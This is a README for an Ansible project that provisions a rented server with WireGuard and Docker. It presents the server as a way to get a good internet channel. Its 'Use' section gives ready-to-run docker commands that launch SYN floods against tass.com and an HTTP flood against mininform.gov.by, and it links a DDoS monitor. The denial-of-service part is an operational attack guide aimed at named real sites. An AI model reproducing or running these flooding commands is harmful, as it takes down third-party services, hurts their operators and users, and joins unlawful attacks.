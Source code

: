 - [Important](#important)
- [Overview](#overview)
  - [Details](#details)
  - [Monitoring tools](#monitoring-tools)
- [Install](#install)
  - [Deps](#deps)
  - [Install Ansible](#install-ansible)
- [Run](#run)
  - [Digital ocean](#digital-ocean)
- [Use](#use)
  - [Wireguard](#wireguard)
  - [Use tools/get shell](#use-toolsget-shell)
  - [Siege Engine (syn flood)](#siege-engine-syn-flood)
  - [Golang syn-flood](#golang-syn-flood)
  - [Bombardier](#bombardier)

# Important
* Tested on Ubuntu 20.04
* For now supported SSH keys only
* PRs are welcome

# Overview
Sometimes we may need good internet channel, especially since Feb 24. There may be no good internet channel or no access to the VPN. Solution to it is to set up a server with tools. All you need is to create virtual server or rent physical server

## Details
This is a set ansible roles to install core tools on remote server
* Wireguard VPN, config will be fetched to local
* Docker
* tmux (with `screen` like rc, check `ansible/roles/wireguard/files/.tmux.conf`)

## Monitoring tools
* [Monitor](https://ddosmonitor.herokuapp.com/)
* [Geo distributed monitor](https://www.uptrends.com/tools/uptime)

# Install
## Deps
* `pip` - python package manager. Install doc can be found [here](https://www.geeksforgeeks.org/how-to-install-pip-on-windows/#:~:text=Download%20and%20Install%20pip%3A&text=Download%20the%20get%2Dpip.py,where%20the%20above%20file%20exists.&text=and%20wait%20through%20the%20installation,now%20installed%20on%20your%20system.), note, I've not tested it.
* Wireguard client, install doc can be found [here](https://www.wireguard.com/install/)

## Install Ansible
If you have `pip` installed, than install via pip - [reference](https://docs.ansible.com/ansible/latest/installation_guide/intro_installation.html#installing-ansible-with-pip)
In short, run
```
python -m pip install --user ansible
```

# Run
## Digital ocean
```
cd ansible/
export a_user="root"
export a_ip="SERVER_IP"
ansible-playbook -i "${a_ip}," -u ${a_user} -b play.yaml
```

# Use
## Wireguard

## Use tools/get shell
Ensure that you have exported variables from [Run](#run) according to your hosting provider and run following
```
ssh ${a_user}@${a_ip}
```

## Siege Engine (syn flood)
Tool for SYN flood, [ref](https://github.com/smok-serwis/siege-engine)
```
docker run --rm -it mack/battle-tools python3 -m siege_engine 300 tass.com
```

## Golang syn-flood
Tool for SYN flood, [ref](https://github.com/bilalcaliskan/syn-flood)
```
docker run --rm -it mack/battle-tools syn-flood --port 443 --host tass.com
```

## Bombardier
Tool for HTTP stress (we should use `--http2` because [fasthttp issue](https://github.com/codesenberg/bombardier#known-issues))
```
docker run --rm -it mack/battle-tools bombardier --http2 -c 200 -d 300s -l https://mininform.gov.by
```
